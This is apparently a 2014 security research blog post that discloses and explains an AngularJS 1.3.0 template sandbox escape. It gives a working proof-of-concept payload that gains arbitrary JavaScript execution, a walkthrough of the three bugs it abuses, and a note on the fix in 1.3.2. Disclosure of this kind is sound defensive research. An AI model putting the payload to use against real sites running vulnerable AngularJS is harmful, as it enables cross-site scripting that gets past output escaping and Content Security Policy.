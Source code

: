 ```yaml
---
layout:     post
title:      An AngularJS Template Expression Sandbox Escape
date:       2014-11-09 00:00
---
```


Short Proof of Concept
----------------------

```html
<!doctype html>
<html>
<head>
    <script src="https://ajax.googleapis.com/ajax/libs/angularjs/1.3.0/angular.js">
    </script>
</head>
<body ng-app>
    {{ "{{" }}
    !ready && (ready = true) && (
      !call
      ? $$watchers[0].get(toString.constructor.prototype)
      : (a = apply) &&
        (apply = constructor) &&
        (valueOf = call) &&
        (''+''.toString(
          'F = Function.prototype;' +
          'F.apply = F.a;' +
          'delete F.a;' +
          'delete F.valueOf;' +
          'alert(42);'
        ))
    );
    }}
</body>
</html>
```

See also on jsfiddle [with HTML entities escaping](http://jsfiddle.net/cm7n1ug4/3/) and [without escaping](http://jsfiddle.net/uesh50vo/).

AngularJS Template Expression Sandbox Escapes in General
--------------------------------------------------------

AngularJS has a rich client side templating system that accepts JavaScript expressions wrapped in double curly braces (mustache style templating). The template code is interpreted by an interpreter written in JS itself, and prevents the template code from accessing the DOM, and sensitive objects and functions (`eval()`, `Function()`, `bind()`, `apply()`, `call()` etc.) that would allow arbitrary JS execution.

Bugs in this sandbox mechanism can lead to XSS when mixing client side and server side templating like this:

```html
<div ng-app>
{{ '<?php echo $username; ?>' === 'admin' ? 'You are admin!' : 'You are not admin!' }}
</div>
```

But why would you want to trick the sandboxing code when you can simply create a `<script>` tag just like in a regular XSS without much hassle? The answer is that you can bypass XSS protection mechanisms like these:

1. `<?php echo htmlentities($username) ?>` and `<?php echo htmlspecialchars($username) ?>` won't help this time. It prevents creating HTML tags, but the JS template code will be interpreted and sandbox escape will still work.
2. It bypasses a strict [Content Security Policy](https://developer.mozilla.org/en-US/docs/Web/Security/CSP) defined to prevent XSS attack. In this case, no `<script>` tags are created, the code is executed by Angular. 

See also: [AngularJS sandbox escapes on the Mustache Security Wiki](https://code.google.com/p/mustache-security/wiki/AngularJS#Sandbox_Bypasses)

Bugs Abused
-----------

The sandbox bypass abuses three bugs:

1. It is possible to access the Function prototype as
   `toString.constructor.prototype`.
2. The `$$watchers` array is exposed on the scope and this makes it possible
   to call the template recursively with a given new scope.
3. When the scope is `Function.prototype`, `apply`, `bind` and `call` are
   all accessible and overwriteable (but not callable).

(1) is actually not new and was used in previous sandbox escapes as well,
but it seems like it was not fixed. I believe that (2) and (3) are new.

Detailed Explanation
--------------------

The first line ensures that the expression evaluates at most once per scope.
This is needed only to avoid the payload JS code from executing more than
once.

        !ready && (ready = true) && (

The whole payload will execute in two different contexts: first with the
original one, and later with `Function.prototype`. The following conditional
expression separates the code that should be executed in the main context
and the other context. We assume that `call` is only defined in the function
prototype context, so the main context code is the first branch and the
function prototype code is the second branch.

          !call
          ? ...
          : ...

The main context code runs first. It calls the template recursively with
`Function.prototype` as context. It is made possible by the exposed
`$$watchers[0].get` function which evaluates the current template with a
given scope. `Function.prototype` is not accessible directly, but we can use
`toString.constructor.prototype` instead.

          ? $$watchers[0].get(toString.constructor.prototype)

The following lines evaluate only when the context is `Function.prototype`.
The first line saves a reference to `apply` to temporary variable on the
scope.

          : (a = apply) &&

The next two lines is equivalent to `Function.prototype.apply = Function` and
`Function.prototype.valueOf = Function.prototype.call`. These will be used
for tricking Angular into instantiating and calling a function for us in the
next step.

            (apply = constructor) &&
            (valueOf = call) &&

The following line first triggers the creation of a function with the code
given as argument to the `toString` method and then calls the method:

            (''+''.toString('js code'))

When interpreting `''.toString( ... )`, Angular actually uses `apply` to
invoke the method. With this in mind, and considering the previously
overwritten methods, the previous line is equivalent to these:

            (''+toString.apply('', ['js code']))
            (''+Function.prototype.apply.call(toString, '', ['js code']))
            (''+Function('', ['js code']))
            (''+Function('', 'js code'))
            (''+function() { js code })

The newly created function will be converted to string because of the '+'
operator, and as part of this process, the previously overwritten `valueOf`
method is called:

            (''+function() { js code }.valueOf())
            (''+function() { js code }.call())
            (''+eval('js code'))


The actual JS code first restores every change to the Function class:

              'F = Function.prototype;' +
              'F.apply = F.a;' +
              'delete F.a;' +
              'delete F.valueOf;' +

and the executes the main payload:

              'alert(42);'

Acknowledgements
----------------

Thanks for [Mathias Karlsson](https://twitter.com/avlidienbrunn) for inspiring this work with his [previous sandbox escape](https://twitter.com/avlidienbrunn/status/513978256790663168), and the AngularJS team for quickly fixing the vulnerability. The fix has been released as part of [AngularJS 1.3.2](https://github.com/angular/angular.js/blob/master/CHANGELOG.md#132-cardiovasculatory-magnification-2014-11-07).
